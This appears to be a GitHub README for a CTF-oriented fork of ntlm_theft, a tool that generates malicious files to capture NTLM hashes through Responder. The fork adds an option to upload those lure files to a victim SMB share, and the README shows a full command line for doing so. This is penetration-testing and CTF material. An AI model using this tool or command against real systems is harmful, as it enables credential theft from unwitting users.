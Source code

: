 This is a fork of [ntlm_theft](https://github.com/Greenwolf/ntlm_theft) A tool to generate malicious files to steal ntlm hashes using responder. 
I have added an optional CTF arg (not realistic for realworld i don't think). This `upload` argument will take all the files generated byt ntlm_theft
and upload them to the victim defined by rserver andd rport


`python3 ntlm_theft.py --generate all --server 127.0.0.1 --filename 'desktop' --upload -rserver localhost -rport 445 -smbuser guest -smbpass '' -d ./desktop/`


![image](https://github.com/h8handles/ntlm_theftCTF/assets/67421443/53dd92e6-666f-4d55-aadb-06148a327d93)

After normal generation of the malicious files it will take the directory created and upload the files 


_List of files Uploaded_

![image](https://github.com/h8handles/ntlm_theftCTF/assets/67421443/94a6a2fe-fa33-4076-b271-de75ae9227d0)
